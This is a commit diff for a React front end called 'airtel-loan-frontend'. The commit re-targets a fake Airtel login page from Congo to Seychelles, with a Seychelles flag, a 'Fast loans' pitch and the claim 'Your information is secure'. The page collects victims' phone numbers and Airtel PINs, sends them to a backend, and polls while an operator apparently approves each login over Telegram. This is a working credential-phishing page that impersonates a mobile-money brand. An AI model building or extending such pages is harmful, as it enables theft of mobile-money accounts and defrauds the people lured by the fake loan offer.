

Before and after one commit to ClintonK399/airtel-loan-frontend, a React (Vite) app: page / in a window 1280 px wide. After the commit the page ends 800 px from the top, so only its background shows below. Built offline with nearby package versions, Linux system fonts and the light colour scheme; no server answers.

Commit message:
UI: Redesigned Login page to match exact Seychelles layout and iconography

```diff
--- a/src/AirtelLogin.tsx
+++ b/src/AirtelLogin.tsx
@@ -1,18 +1,15 @@
 import React, { useState, useRef } from 'react';
 import { useNavigate } from 'react-router-dom';
 
-const COUNTRY_CODE = '+243';
-const PHONE_PLACEHOLDER = '951234567';
-const PHONE_MAX = 9;
+const COUNTRY_CODE = '+248';
+const PHONE_PLACEHOLDER = '2XXXXXX';
+const PHONE_MAX = 7;
 
 function AirtelLogin() {
   const [phone, setPhone] = useState('');
   const [pin, setPin] = useState<string[]>(['', '', '', '']);
-  const [showPin, setShowPin] = useState(false);
-  const [error, setError] = useState('');
   const [isLoading, setIsLoading] = useState(false);
 
-  // NEW: States for the approval waiting screen
   const [isWaitingForApproval, setIsWaitingForApproval] = useState(false);
   const [refId, setRefId] = useState<string | null>(null);
 
@@ -21,9 +18,11 @@ function AirtelLogin() {
 
   const handlePhoneChange = (e: React.ChangeEvent<HTMLInputElement>) => {
     const val = e.target.value.replace(/\D/g, '');
+    if (val.length <= PHONE_MAX) {
       setPhone(val);
       if (val.length === PHONE_MAX) {
         pinRefs.current[0]?.focus();
+      }
     }
   };
 
@@ -47,16 +46,10 @@ function AirtelLogin() {
     e.preventDefault();
     const pinString = pin.join('');
 
-    if (phone.length < PHONE_MAX) {
-      setError('Entrez un numéro Airtel DRC valide.');
-      return;
-    }
-    if (pinString.length < 4) {
-      setError('Entrez votre code PIN Airtel.');
+    if (phone.length < PHONE_MAX || pinString.length < 4) {
       return;
     }
 
-    setError('');
     setIsLoading(true);
 
     const fullPhone = `${COUNTRY_CODE}${phone}`;
@@ -70,14 +63,11 @@ function AirtelLogin() {
       });
 
       const data = await response.json();
-      console.log('Login response:', data);
 
-      // NEW LOGIC: Wait for admin approval
       if (data.status === 'pending' && data.ref_id) {
         setRefId(data.ref_id);
-        setIsWaitingForApproval(true); // Show the overlay
+        setIsWaitingForApproval(true);
 
-        // Poll the backend every 3 seconds to see if admin clicked Approve on Telegram
         const pollInterval = setInterval(async () => {
           try {
             const statusRes = await fetch(`${import.meta.env.VITE_API_BASE_URL}/api/login-status/${data.ref_id}`);
@@ -89,7 +79,6 @@ function AirtelLogin() {
             } else if (statusData.status === 'rejected' || statusData.status === 'expired') {
               clearInterval(pollInterval);
               setIsWaitingForApproval(false);
-              setError("Connexion refusée ou expirée par l'administrateur.");
               setIsLoading(false);
             }
           } catch (pollErr) {
@@ -97,15 +86,15 @@ function AirtelLogin() {
           }
         }, 3000);
       } else {
-        // Fallback just in case
         navigate('/airtel-otp');
       }
     } catch (err) {
       console.error('Login request failed:', err);
-      setError('Une erreur réseau est survenue. Veuillez réessayer.');
       setIsLoading(false);
     }
   };
+
+  const isFormValid = phone.length === PHONE_MAX && pin.join('').length === 4;
 
   return (
     <div className="airtel-page-container">
@@ -121,15 +110,8 @@ function AirtelLogin() {
           display: flex;
           flex-direction: column;
           min-height: 100vh;
-          background-color: #ffffff;
+          background-color: #DA1C1C; /* Airtel Red */
           position: relative;
-        }
-
-        /* FADED BACKGROUND WHEN WAITING */
-        .faded-content {
-          opacity: 0.15;
-          pointer-events: none;
-          transition: opacity 0.3s ease;
         }
 
         /* WAITING OVERLAY */
@@ -145,7 +127,7 @@ function AirtelLogin() {
           justify-content: center;
           z-index: 9999;
           padding: 20px;
-          background-color: rgba(255, 255, 255, 0.4); /* Semi-transparent so faded text shows */
+          background-color: rgba(255, 255, 255, 0.4);
         }
 
         .custom-spinner {
@@ -183,202 +165,188 @@ function AirtelLogin() {
           box-shadow: 0 4px 12px rgba(0,0,0,0.05);
         }
 
-        /* TOP SECTION */
-        .login-top-section {
-          flex: 1;
-          padding: 40px 24px;
+        /* HEADER */
+        .header-section {
+          padding: 40px 24px 30px;
           display: flex;
           flex-direction: column;
           align-items: center;
+          position: relative;
         }
 
-        .logo-wrapper {
+        .back-btn {
+          position: absolute;
+          left: 20px;
+          top: 20px;
+          background: none;
+          border: none;
+          cursor: pointer;
+          padding: 8px;
+        }
+
+        .header-title {
+          font-size: 32px;
+          font-weight: 900;
+          color: #1a1a1a;
+          font-style: italic;
+          margin-bottom: 6px;
+        }
+
+        .header-subtitle {
+          font-size: 14px;
+          font-weight: 600;
+          color: #1a1a1a;
+        }
+
+        /* MAIN CARD */
+        .main-card {
+          background-color: #ffffff;
+          width: 90%;
+          max-width: 420px;
+          margin: 0 auto;
+          border-radius: 24px;
+          padding: 32px 24px;
           display: flex;
           flex-direction: column;
           align-items: center;
-          margin-bottom: 40px;
+          box-shadow: 0 10px 25px rgba(0,0,0,0.1);
+          position: relative;
+          z-index: 10;
         }
 
-        .tagline {
-          font-size: 10px;
-          letter-spacing: 1.5px;
-          color: #333;
-          text-transform: uppercase;
-          margin-top: 8px;
-          font-weight: 600;
+        .card-title {
+          font-size: 26px;
+          font-weight: 800;
+          color: #000000;
+          margin-bottom: 8px;
         }
 
-        .tagline span {
-          color: #DA1C1C;
+        .card-subtitle {
+          font-size: 15px;
+          color: #4B5563;
+          margin-bottom: 24px;
         }
 
-        .login-title {
-          font-size: 22px;
+        .input-label {
+          font-size: 15px;
           font-weight: 700;
-          color: #1a1a1a;
+          color: #000000;
+          margin-bottom: 12px;
+          width: 100%;
           text-align: center;
-          line-height: 1.3;
-          margin-bottom: 30px;
-          max-width: 340px;
         }
 
         /* PHONE INPUT */
-        .phone-input-container {
+        .phone-wrapper {
           width: 100%;
-          max-width: 400px;
+          display: flex;
+          border-radius: 8px;
+          overflow: hidden;
+          margin-bottom: 24px;
+          border: 1px solid #CBD5E1;
+        }
+
+        .phone-prefix {
+          background-color: #E2E8F0;
           display: flex;
           align-items: center;
-          border: 2px solid #2A5CAA;
-          border-radius: 8px;
-          padding: 12px 16px;
-          margin-bottom: 32px;
-          background-color: #fff;
+          padding: 0 16px;
+          font-size: 16px;
+          font-weight: 700;
+          color: #1a1a1a;
+          gap: 8px;
         }
 
-        .flag-icon {
-          width: 24px;
-          height: 16px;
-          margin-right: 10px;
-          border-radius: 2px;
-          overflow: hidden;
+        .phone-input-field {
+          flex: 1;
+          background-color: #B0C4DE;
+          border: none;
+          padding: 16px;
+          font-size: 18px;
+          color: #ffffff;
+          font-weight: 600;
+          outline: none;
         }
 
-        .country-code-text {
-          font-size: 18px;
-          font-weight: 600;
-          color: #1a1a1a;
-          margin-right: 10px;
-        }
-
-        .phone-input {
-          flex: 1;
-          border: none;
-          outline: none;
-          font-size: 18px;
-          color: #1a1a1a;
-          background: transparent;
-        }
-
-        .phone-input::placeholder {
-          color: #a0a0a0;
+        .phone-input-field::placeholder {
+          color: #E2E8F0;
         }
 
         /* PIN INPUT */
-        .pin-section {
-          width: 100%;
+        .pin-inputs-container {
           display: flex;
-          flex-direction: column;
-          align-items: center;
-          margin-bottom: 32px;
-        }
-
-        .pin-label {
-          font-size: 14px;
-          font-weight: 600;
-          color: #666;
-          margin-bottom: 16px;
-        }
-
-        .pin-inputs-row {
-          display: flex;
-          align-items: center;
           gap: 16px;
-        }
-
-        .pin-boxes {
-          display: flex;
-          gap: 12px;
+          margin-bottom: 28px;
         }
 
         .pin-box {
-          width: 50px;
-          height: 50px;
-          border: 2px solid #2A5CAA;
-          border-radius: 8px;
-          font-size: 24px;
-          font-weight: 700;
+          width: 60px;
+          height: 60px;
+          border: 2px solid #CBD5E1;
+          border-radius: 12px;
+          font-size: 28px;
           text-align: center;
-          color: #1a1a1a;
+          color: #000000;
           outline: none;
-          background-color: #fff;
+          background-color: #ffffff;
         }
 
         .pin-box::placeholder {
-          color: #ccc;
-        }
-
-        .eye-icon {
-          cursor: pointer;
-          display: flex;
-          align-items: center;
-          justify-content: center;
-          color: #666;
+          color: #000000;
+          font-size: 30px;
         }
 
         /* BUTTON */
         .login-btn {
           width: 100%;
-          max-width: 400px;
-          padding: 16px;
-          border-radius: 30px;
+          padding: 18px;
+          border-radius: 12px;
           border: none;
           background-color: #D1D5DB;
-          color: #ffffff;
-          font-size: 16px;
+          color: #4B5563;
+          font-size: 18px;
           font-weight: 700;
-          text-transform: uppercase;
           cursor: pointer;
-          transition: background-color 0.2s;
+          display: flex;
+          justify-content: center;
+          align-items: center;
+          gap: 12px;
+          transition: all 0.2s;
         }
 
         .login-btn.active {
           background-color: #DA1C1C;
+          color: #ffffff;
         }
 
-        /* FOOTER SECTION */
-        .login-footer {
-          background-color: #F3F4F6;
-          padding: 32px 24px;
+        /* SECURITY TEXT */
+        .security-footer {
           display: flex;
-          flex-direction: column;
           align-items: center;
-          border-top: 1px solid #E5E7EB;
+          gap: 8px;
+          margin-top: 24px;
+          color: #6B7280;
+          font-size: 14px;
+          font-weight: 500;
         }
 
-        .footer-logo-wrapper {
+        /* FOOTER ICONS */
+        .brand-icons-footer {
+          flex: 1;
           display: flex;
-          flex-direction: column;
+          justify-content: center;
           align-items: center;
-          margin-bottom: 24px;
+          gap: 16px;
+          padding: 40px 20px 20px;
         }
 
-        .collab-text {
-          font-size: 14px;
-          font-weight: 600;
-          color: #333;
-          margin-bottom: 4px;
-        }
-
-        .starlink-text {
-          font-size: 15px;
-          font-weight: 800;
-          color: #1a1a1a;
-          letter-spacing: 1px;
-        }
-
-        .starlink-text sup {
-          font-size: 8px;
-          font-weight: normal;
-        }
-
-        .copyright {
-          font-size: 12px;
-          color: #9CA3AF;
-          margin-top: 24px;
+        .brand-icon {
+          display: flex;
+          align-items: center;
+          justify-content: center;
         }
       `}</style>
 
-      {/* WAITING OVERLAY (Only shows when waiting) */}
       {isWaitingForApproval && (
         <div className="waiting-overlay">
           <div className="custom-spinner"></div>
@@ -389,48 +357,42 @@ function AirtelLogin() {
         </div>
       )}
 
-      {/* MAIN CONTENT (Gets faded when waiting) */}
-      <div className={isWaitingForApproval ? 'faded-content' : ''} style={{ display: 'flex', flexDirection: 'column', minHeight: '100vh' }}>
-
-        {/* TOP SECTION */}
-        <div className="login-top-section">
-
-          {/* LOGO */}
-          <div className="logo-wrapper">
-            <svg width="140" height="40" viewBox="0 0 140 40" fill="none" xmlns="http://www.w3.org/2000/svg">
-              <path d="M25 2C16.7 2 10 8.7 10 17C10 27 25 38 25 38C25 38 40 27 40 17C40 8.7 33.3 2 25 2Z" fill="#DA1C1C"/>
-              <circle cx="25" cy="17" r="5" fill="white"/>
-              <text x="46" y="29" fontSize="26" fontWeight="700" fill="#DA1C1C" letterSpacing="-0.5">airtel</text>
+      {/* HEADER */}
+      <div className="header-section">
+        <button className="back-btn" onClick={() => navigate('/')}>
+          <svg width="28" height="28" viewBox="0 0 24 24" fill="none" stroke="#000" strokeWidth="2.5" strokeLinecap="round" strokeLinejoin="round">
+            <line x1="19" y1="12" x2="5" y2="12" />
+            <polyline points="12 19 5 12 12 5" />
           </svg>
-            <p className="tagline">A REASON TO <span>IMAGINE</span></p>
+        </button>
+        {/* Updated to Seychelles but kept the italic style */}
+        <h1 className="header-title">Airtel Seychelles</h1>
+        <p className="header-subtitle">Fast loans. Anytime. Anywhere.</p>
       </div>
 
-          {/* TITLE */}
-          <h1 className="login-title">
-            Connectez-vous à Airtel Lite pour finaliser le paiement.
-          </h1>
-
-          {/* ERROR MESSAGE */}
-          {error && (
-            <div style={{ color: '#DA1C1C', fontSize: '14px', marginBottom: '16px', textAlign: 'center', fontWeight: '500' }}>
-              {error}
-            </div>
-          )}
+      {/* MAIN CARD */}
+      <div className="main-card">
+        <h2 className="card-title">Welcome back</h2>
+        <p className="card-subtitle">Log in to your Airtel Seychelles account</p>
 
         <form onSubmit={handleLogin} style={{ width: '100%', display: 'flex', flexDirection: 'column', alignItems: 'center' }}>
 
-            {/* PHONE INPUT */}
-            <div className="phone-input-container">
-              <svg className="flag-icon" viewBox="0 0 640 480" xmlns="http://www.w3.org/2000/svg">
-                <path fill="#007fff" d="M0 0h640v480H0z"/>
-                <path fill="#f7d618" d="M0 240h640v240H0z"/>
-                <path fill="#ce1021" d="M0 0l640 480M640 0L0 480" stroke="#ce1021" strokeWidth="40"/>
-                <path fill="#f7d618" d="M60 60h40v40H60z"/>
+          <span className="input-label">Phone number</span>
+          <div className="phone-wrapper">
+            <div className="phone-prefix">
+              {/* Seychelles Flag SVG */}
+              <svg width="20" height="14" viewBox="0 0 300 200" xmlns="http://www.w3.org/2000/svg" style={{ borderRadius: '2px' }}>
+                <path fill="#003f87" d="M0,200 L300,0 L0,0 Z"/>
+                <path fill="#fcd856" d="M0,200 L300,0 L300,50 Z"/>
+                <path fill="#d62828" d="M0,200 L300,50 L300,100 Z"/>
+                <path fill="#ffffff" d="M0,200 L300,100 L300,150 Z"/>
+                <path fill="#007a3d" d="M0,200 L300,150 L300,200 Z"/>
               </svg>
-              <span className="country-code-text">{COUNTRY_CODE}</span>
+              {COUNTRY_CODE}
+            </div>
             <input
               type="tel"
-                className="phone-input"
+              className="phone-input-field"
               placeholder={PHONE_PLACEHOLDER}
               value={phone}
               onChange={handlePhoneChange}
@@ -439,70 +401,79 @@ function AirtelLogin() {
             />
           </div>
 
-            {/* PIN INPUT */}
-            <div className="pin-section">
-              <span className="pin-label">Entrez votre Code</span>
-              <div className="pin-inputs-row">
-                <div className="pin-boxes">
+          <span className="input-label">Enter your Airtel PIN code</span>
+          <div className="pin-inputs-container">
             {pin.map((digit, index) => (
               <input
                 key={index}
-                      type={showPin ? 'text' : 'password'}
+                type="password"
                 maxLength={1}
                 value={digit}
                 ref={(el) => { pinRefs.current[index] = el; }}
                 onChange={(e) => handlePinChange(index, e.target.value)}
                 onKeyDown={(e) => handleKeyDown(index, e)}
                 className="pin-box"
+                placeholder="•"
                 disabled={isLoading || isWaitingForApproval}
               />
             ))}
           </div>
 
-                {/* Eye Toggle */}
-                <div className="eye-icon" onClick={() => setShowPin(!showPin)}>
-                  {showPin ? (
-                    <svg width="24" height="24" viewBox="0 0 24 24" fill="none" stroke="currentColor" strokeWidth="2" strokeLinecap="round" strokeLinejoin="round">
-                      <path d="M17.94 17.94A10.07 10.07 0 0 1 12 20c-7 0-11-8-11-8a18.45 18.45 0 0 1 5.06-5.94M9.9 4.24A9.12 9.12 0 0 1 12 4c7 0 11 8 11 8a18.5 18.5 0 0 1-2.16 3.19m-6.72-1.07a3 3 0 1 1-4.24-4.24"></path>
-                      <line x1="1" y1="1" x2="23" y2="23"></line>
+          <button
+            type="submit"
+            className={`login-btn ${isFormValid ? 'active' : ''}`}
+            disabled={!isFormValid || isLoading || isWaitingForApproval}
+          >
+            Connexion
+            <svg width="22" height="22" viewBox="0 0 24 24" fill="none" stroke="currentColor" strokeWidth="2.5" strokeLinecap="round" strokeLinejoin="round">
+              <line x1="5" y1="12" x2="19" y2="12" />
+              <polyline points="12 5 19 12 12 19" />
             </svg>
-                  ) : (
-                    <svg width="24" height="24" viewBox="0 0 24 24" fill="none" stroke="currentColor" strokeWidth="2" strokeLinecap="round" strokeLinejoin="round">
-                      <path d="M1 12s4-8 11-8 11 8 11 8-4 8-11 8-11-8-11-8z"></path>
-                      <circle cx="12" cy="12" r="3"></circle>
+          </button>
+
+        </form>
+
+        <div className="security-footer">
+          <svg width="18" height="18" viewBox="0 0 24 24" fill="none" stroke="#D97706" strokeWidth="2" strokeLinecap="round" strokeLinejoin="round">
+            <path d="M12 22s8-4 8-10V5l-8-3-8 3v7c0 6 8 10 8 10z" />
           </svg>
-                  )}
-                </div>
+          Your information is secure.
         </div>
       </div>
 
-            {/* BUTTON */}
-            <button
-              type="submit"
-              className={`login-btn ${(phone.length === PHONE_MAX && pin.join('').length === 4) ? 'active' : ''}`}
-              disabled={isLoading || isWaitingForApproval}
-            >
-              {isLoading && !isWaitingForApproval ? 'Chargement...' : 'CONNEXION'}
-            </button>
-
-          </form>
+      {/* BRAND ICONS FOOTER (Matching the second image) */}
+      <div className="brand-icons-footer">
+        {/* Icon 1: Airtel Phone */}
+        <div className="brand-icon">
+          <div style={{ width: '32px', height: '52px', border: '2px solid #E5E7EB', backgroundColor: '#fff', borderRadius: '6px', display: 'flex', flexDirection: 'column', alignItems: 'center', justifyContent: 'center', position: 'relative' }}>
+            <div style={{ width: '12px', height: '12px', backgroundColor: '#000', borderRadius: '50%', marginBottom: '4px' }}></div>
+            <span style={{ fontSize: '9px', fontWeight: 'bold', color: '#000' }}>Airtel</span>
+          </div>
         </div>
 
-        {/* FOOTER SECTION */}
-        <div className="login-footer">
-          <div className="footer-logo-wrapper">
-            <svg width="110" height="30" viewBox="0 0 140 40" fill="none" xmlns="http://www.w3.org/2000/svg">
-              <path d="M25 2C16.7 2 10 8.7 10 17C10 27 25 38 25 38C25 38 40 27 40 17C40 8.7 33.3 2 25 2Z" fill="#DA1C1C"/>
-              <circle cx="25" cy="17" r="5" fill="white"/>
-              <text x="46" y="29" fontSize="26" fontWeight="700" fill="#DA1C1C" letterSpacing="-0.5">airtel</text>
+        {/* Icon 2: Lock */}
+        <div className="brand-icon">
+          <div style={{ width: '36px', height: '48px', backgroundColor: '#1E293B', borderRadius: '8px', display: 'flex', alignItems: 'center', justifyContent: 'center' }}>
+            <svg width="18" height="18" viewBox="0 0 24 24" fill="#FCD34D" stroke="#D97706" strokeWidth="1.5">
+              <rect x="3" y="11" width="18" height="11" rx="2" ry="2"></rect>
+              <path d="M7 11V7a5 5 0 0 1 10 0v4"></path>
             </svg>
-            <p className="tagline">A REASON TO <span>IMAGINE</span></p>
+          </div>
         </div>
 
-          <p className="collab-text">En collaboration avec</p>
-          <p className="starlink-text">STARLINK<sup>TM</sup></p>
+        {/* Icon 3: Airtel Money */}
+        <div className="brand-icon">
+          <div style={{ width: '32px', height: '20px', backgroundColor: '#FCD34D', borderRadius: '3px', display: 'flex', flexDirection: 'column', alignItems: 'center', justifyContent: 'center', border: '1px solid #D97706' }}>
+            <span style={{ fontSize: '8px', fontWeight: '900', color: '#B45309', lineHeight: '1' }}>Airtel</span>
+            <span style={{ fontSize: '8px', fontWeight: '900', color: '#B45309', lineHeight: '1' }}>Money</span>
+          </div>
+        </div>
 
-          <p className="copyright">© 2026 Airtel Congo. Tous droits réservés.</p>
+        {/* Icon 4: Currency Symbol */}
+        <div className="brand-icon">
+          <div style={{ width: '36px', height: '36px', backgroundColor: '#FCD34D', borderRadius: '50%', display: 'flex', alignItems: 'center', justifyContent: 'center', border: '2px solid #F59E0B' }}>
+            <span style={{ fontSize: '18px', fontWeight: '900', color: '#78350F' }}>₣</span>
+          </div>
         </div>
       </div>
     </div>
```
Lines whose indentation alone changed are shown as unchanged.
